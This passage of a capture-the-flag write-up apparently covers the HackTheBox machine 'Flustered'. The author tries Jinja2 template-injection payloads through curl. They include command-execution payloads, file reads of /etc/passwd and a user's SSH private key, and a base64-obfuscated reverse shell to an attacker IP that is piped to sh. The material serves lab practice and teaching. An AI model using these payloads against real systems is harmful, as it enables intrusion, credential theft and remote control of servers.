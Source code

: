 It's more likely to be Jinja2.

payloadallthethings first as I remmebered last time that worked well.

```bash
curl -H 'Content-Type: application/json' -d '{"siteurl":"{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen(\"id\").read()}}"}' http://flustered.htb

curl -H 'Content-Type: application/json' -d '{"siteurl":"{{ cycler.__init__.__globals__.os.popen(\"id\").read() }}"}' http://flustered.htb
curl -H 'Content-Type: application/json' -d '{"siteurl":"{{ joiner.__init__.__globals__.os.popen(\"id\").read() }}"}' http://flustered.htb
curl -H 'Content-Type: application/json' -d '{"siteurl":"{{ namespace.__init__.__globals__.os.popen(\"id\").read() }}"}' http://flustered.htb
```
above didn't work.

But read files worked.

```bash
curl -H 'Content-Type: application/json' -d '{"siteurl":"{{ request.__class__._load_form_data.__globals__.__builtins__.open(\"/etc/passwd\").read() }}"}' http://flustered.htb
curl -H 'Content-Type: application/json' -d '{"siteurl":"{{ request.__class__._load_form_data.__globals__.__builtins__.open(\"/home/jennifer/.ssh/id_rsa\").read() }}"}' http://flustered.htb
```
ssh key reading is not working. As the box designed to have a lateral movement step to Jennifer. It won't give it so easy.

Then I'll just go a reverse shell to try it. L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjEyLzgwIDA+JjE=

```bash
curl -H 'Content-Type: application/json' -d '{"siteurl":"{{ namespace.__init__.__globals__.os.popen(\"echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjEyLzgwIDA+JjE= | base64 -d | sh\").read() }}' http://flustered.htb
```

Failed

##### Calling Popen without guessing the offset
```bash
curl -H 'Content-Type: application/json' -d '{"siteurl":"{% for x in ().__class__.__base__.__subclasses__() %}{% if \"warning\" in x.__name__ %}{{x()._module.__builtins__[\"__import__\"](\"os\").popen(\"ls\").read()}}{%endif%}{% endfor %}"}' http://flustered.htb

app.py
config
__pycache__
static
templates
wsgi.py

curl -H 'Content-Type: application/json' -d '{"siteurl":"{% for x in ().__class__.__base__.__subclasses__() %}{% if \"warning\" in x.__name__ %}{{x()._module.__builtins__[\"__import__\"](\"os\").popen(\"echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjEyLzgwIDA+JjE= | base64 -d | sh\").read()}}{%endif%}{% endfor %}"}' http://flustered.htb
```
bash encoded shell not working, 
